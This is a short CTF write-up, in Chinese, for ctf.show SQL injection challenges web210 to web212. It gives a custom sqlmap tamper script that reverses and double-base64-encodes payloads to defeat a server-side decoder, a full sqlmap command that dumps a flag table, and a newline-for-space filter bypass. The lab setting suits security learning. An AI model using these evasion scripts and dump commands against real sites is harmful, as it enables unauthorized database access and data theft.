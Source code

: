 ## web210

```php
function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
```

base64 + 反转字符串

自写 tamper

```python
# Needed imports
import base64
from lib.core.enums import PRIORITY

# Define which is the order of application of tamper scripts against
# the payload
__priority__ = PRIORITY.NORMAL

def tamper(payload, **kwargs):
    '''
    Description of your tamper script
    '''

    retVal = base64.b64encode(base64.b64encode(payload[::-1].encode("utf-8"))[::-1]).decode("utf-8")

    # your code to tamper the original payload

    # return the tampered payload
    return retVal
```

注意 base64 encode 之前需要 `.encode("utf-8")`, 最后 return 的时候 `.decode("utf-8")` (不能直接 `str()`)

```bash
sqlmap.py -u "http://706317b6-ff03-45f2-ab3d-ac99e00c4f55.challenge.ctf.show/api/index.php" --data "id=1" --user-agent "sqlmap" --referer "ctf.show" --method PUT --headers "Content-Type: text/plain" --safe-url "http://706317b6-ff03-45f2-ab3d-ac99e00c4f55.challenge.ctf.show/api/getToken.php" --safe-freq 1 --tamper "my" --dump -T ctfshow_flavi -D ctfshow_web
```

## web211

过滤了空格

tamper 同上, payload 改为 `payload.replace(" ", chr(0x0a))`

## web212

过滤了 `*`
